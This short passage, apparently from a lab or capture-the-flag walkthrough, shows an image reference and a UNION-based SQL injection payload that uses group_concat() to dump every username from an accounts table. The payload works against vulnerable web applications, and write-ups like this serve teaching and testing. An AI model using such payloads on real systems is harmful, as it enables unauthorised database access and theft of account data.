 ![sqli-dump-columns](./images/sqli-dump-columns.png)

Using the `group_concat()` can dump all usernames from the accounts table
```bash
514 union select group_concat(username) from accounts --
```
